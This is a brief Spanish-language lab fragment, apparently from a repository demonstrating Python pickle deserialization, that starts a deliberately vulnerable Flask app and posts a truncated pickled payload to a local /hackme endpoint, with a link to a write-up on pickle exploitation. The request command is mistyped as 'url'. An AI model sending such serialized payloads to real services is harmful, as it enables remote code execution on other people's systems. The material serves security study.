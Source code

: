 ### Ejecucion del app.py vulnerable
```bash
flask run
```

### Enviar petición
 ```bash
 url -d "pickled=gASVbgAAAAAAAACMBX..." http://127.0.0.1:5000/hackme
```
[https://davidhamann.de/2020/04/05/exploiting-python-pickle/]
